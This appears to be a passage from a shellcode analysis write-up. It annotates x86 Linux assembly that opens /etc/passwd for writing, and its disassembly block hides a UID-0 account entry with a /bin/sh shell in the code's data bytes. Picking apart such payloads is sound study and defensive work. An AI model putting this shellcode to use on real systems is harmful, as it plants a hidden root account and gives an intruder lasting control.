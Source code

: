   - `\x2f` is `/`
  - "/etc"
+ `mov ebx,esp`
  - Puts the Memory Address of the top of the stack into the `ebx` register
  - Top of the stack is the string `/etc/passwd + <NULL Terminated>`
+ `inc ecx`
  - `ECX: 0x1`
+ `mov ch,0x4`
  - `ECX: 0x401`
  - This moves the byte `\x04` into the high byte of the lower word in the `ecx` register

```console
            ECX (whole register)
                      CX (lowest 2 bytes)
   _______________CH_____CL__  (CH & CL are 1 byte)
  |_\x00__\x00_|_\x04_|_\x01_|
   
```

  - Sets the flags for the open fuction to read/write.
+ `int 0x80`
  - Executes the `open` systemcall
+ `xchg eax,ebx`
  - The `open` systemcall returns a file descriptor that isstored in `eax` for the opened file
  - The value is saved for later by putting it into the `ebx` register

### Block Three
```console
E828000000        call 0x53
6D                insd
657461            gs jz 0x90
7370              jnc 0xa1
6C                insb
6F                outsd
69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
736A              jnc 0xa7
3470              xor al,0x70
3449              xor al,0x49
52                push edx
633A              arpl [edx],di
303A              xor [edx],bh
303A              xor [edx],bh
3A2F              cmp ch,[edi]
3A2F              cmp ch,[edi]
62696E            bound ebp,[ecx+0x6e]
2F                das
7368              jnc 0xba
0A598B            or bl,[ecx-0x75]
51                push ecx
FC                cld
6A04              push byte +0x4
58                pop eax
CD80              int 0x80
```
